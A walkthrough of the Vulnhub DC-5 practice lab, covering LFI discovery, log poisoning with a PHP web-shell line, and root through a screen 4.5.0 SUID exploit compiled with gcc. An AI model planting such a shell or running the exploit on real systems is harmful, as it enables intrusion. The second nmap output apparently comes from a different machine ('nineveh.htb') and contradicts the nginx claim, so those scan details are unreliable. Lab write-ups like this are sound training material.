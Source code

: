 ```yaml
---
title:     "Vulnhub - DC 5"
tags: [easy,lfi,log-poisoning]
---
```


Today, We are going to pwn DC 5 by DCAU7 from Vulnhub


## Description:
>DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
The plan was for DC-5 to kick it up a notch, so this might not be  great for beginners, but should be ok for people with intermediate or  better experience. Time will tell (as will feedback).
As far as I am aware, there is only one exploitable entry point to  get in (there is no SSH either). This particular entry point may be  quite hard to identify, but it is there. You need to look for something a  little out of the ordinary (something that changes with a refresh of a  page). This will hopefully provide some kind of idea as to what the  vulnerability might involve.
And just for the record, there is no phpmailer exploit involved. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.
But if you're really, really stuck, you can watch this video which shows the first step.

Download link: <https://www.vulnhub.com/entry/dc-5,314/>

Lets Begin with our Initial Scan

## Nmap Scan Results:

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
45669/tcp open  unknown
```

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.9
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/27 17:30:35 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/27 17:30:36 Finished
===============================================================
```

Well gobuster didn’t find anything interesting.

Lets Check the webpage and nothing Interesting too.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/1.png)

But there is form in ``contact`` page.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/2.png)

So i filled some random datas and submitted

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/3.png)

Once submitted it redirects to some new page with some kind of parameters. I think it is vulnerable to LFI (Local File Inclusion)
So lets test it.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/4.png)
Its Confirmed!!
Now all we need to do is get a reverse shell.

We know its running in nginx from nmap scans so we can do log poisoning.
For that we need to send a request

`` <?php system($_GET['cmd']); >>``

Now its injected , we know log files of nginx located in ``/var/log/nginx/error.log``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/5.png)
For more info read this article:
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

We got the shell

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/6.png)

## Privilege Escalation:

I uploaded my Linux Enumeration Script and found SETUID file

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/7.png)

>screen 4.5.0

Searchsploit shows me an exploit available

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/8.png)

> <https://www.exploit-db.com/exploits/41154>

I uploaded the script to the machine and tried running but i faced some error , so i split them into 3 parts

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/9.png)

And did the same commands

```
gcc -fPIC -shared -ldl -o exploit.so exploit.c
gcc -o rootshell rootshell.c
```
Now I uploaded them

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/10.png)

Run 411.sh

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/11.png)

We got Root 

``Flag`` <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/13.png)

